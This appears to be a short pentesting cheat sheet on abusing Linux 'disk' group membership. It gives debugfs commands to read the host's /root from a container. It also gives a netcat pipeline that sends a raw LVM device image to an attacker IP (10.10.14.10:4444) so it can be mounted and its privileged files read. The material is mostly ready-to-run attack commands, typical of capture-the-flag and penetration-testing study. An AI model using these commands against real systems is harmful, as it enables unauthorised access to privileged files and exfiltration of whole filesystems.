 ```yaml
---
title: "disk group"
date: 2024-7-2
tags: ["disk", "mount", "backup", "privilege read", "container", "lvm"]
---
```


---
### Basic

<div>

```bash
# Show devices
lsblk
```

```bash
# Device attributes
blkid
```

```bash
# Show swap on blk
swapon -s
```

```bash
# Filesystem info
cat /etc/fstab
```

</div>

<br>

---

### Abuse #1: Read host's filesystem from container (root)

<div>

```bash
# Open target device
debugfs /dev/sda1
```

```bash
# Exploit
ls /root
```

</div>

<br>

---

### Abuse #2: Read container's filesystem from host

<div>

```bash
# Show LVM mappings
ls -l /dev/mapper/
```

```bash
# In our local machine
nc -lvnp 4444 > dm-0.gz
```

```bash
# Exfil filesystem (target container rootfs, e.g. dm-0)
dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.10 4444
```

```bash
# Extract dm-0
gunzip dm-0.gz
```

```bash
# Mount the filesystem
sudo mount dm-0-orig /mnt/ 
```

```bash
# Privilege read
ls /mnt/root/
```

<small>*Note: can take a long time to transfer*</small>

</div>

<br>